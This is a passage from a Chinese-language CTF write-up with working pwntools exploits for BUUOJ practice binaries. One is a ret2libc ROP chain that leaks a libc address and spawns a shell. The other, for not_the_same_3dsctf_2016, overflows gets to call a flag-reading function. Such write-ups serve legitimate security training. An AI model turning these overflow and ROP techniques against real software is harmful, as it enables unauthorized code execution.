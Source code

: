    ``````python
   p.sendline(b'1')
   p.recvuntil(b"What do you want to say to me?\n")
   #拿到puts函数的地址
   p.sendline(payload)
   addr = u64(p.recvuntil(b'\x7f').ljust(8,b'\x00'))
   print(hex(addr))
   p.recv()
   p.sendline(b'1')
   p.recvuntil(b'me?\n')
   #计算基地址，和system和str_bin_sh的地址
   libc = LibcSearcher('puts',addr)
   libcbase = addr - libc.dump('puts')
   sys_addr = libcbase + libc.dump('system')
   str_sh   = libcbase + libc.dump('str_bin_sh')
   print(hex(sys_addr),hex(str_sh))
   
   #构造ROP栈溢出拿到shell，注意栈对齐问题，随便加一个ret指令的地址填充一下栈空间
   payload = b'a'*(0x20+8)+p64(0x4004c9)+p64(pop_rdi_ret)+p64(str_sh)+p64(sys_addr)
   p.sendline(payload)
   p.sendline(b'cat flag')
   p.interactive()
   
   ``````

   ![image-20240530194854475](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405301948539.png)

## not_the_same_3dsctf_2016

#### 注意：

1. 缓冲区的刷新控制。

1. gets函数存在栈溢出，其次 **没有setvbuf函数** 刷新缓存区，导致 **printf函数输出** 的内容没有有效返回(暂存再缓冲区，只有当fflush或者程序退出exit时才会刷新缓冲区)。

   ![image-20240530202946944](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405302029997.png)

2. 后门函数get_secret，读取了flag文件，写入到 **全局变量fl4g** ，要想办法输出fl4g处的字符串，拿到flag。

   ![image-20240530203044539](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405302030591.png)

3. 思路：首先栈溢出到 **get_secret函数** 读取flag.txt文件中的内容，放到 **全局变量fl4g** ，接着利用printf函数输出fl4g处的字符串：

   ``````python
   from pwn import *
   
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   p = remote("node5.buuoj.cn",'25773')
   elf = ELF('./not_the_same_3dsctf_2016')
   get_secret = elf.sym['get_secret']
   printf_addr = elf.sym['printf']
   exit_addr = elf.sym['exit']
   print(hex(get_secret),hex(printf_addr),hex(exit_addr))
   
   #加上exit_addr让程序结束，向终端回显
   payload = b'a'*0x2d+p32(get_secret)+p32(printf_addr)+p32(exit_addr)+p32(0x080ECA2D)
   p.sendline(payload)
   
   # 与远程交互，显示程序输出
   p.interactive()
   
   ``````
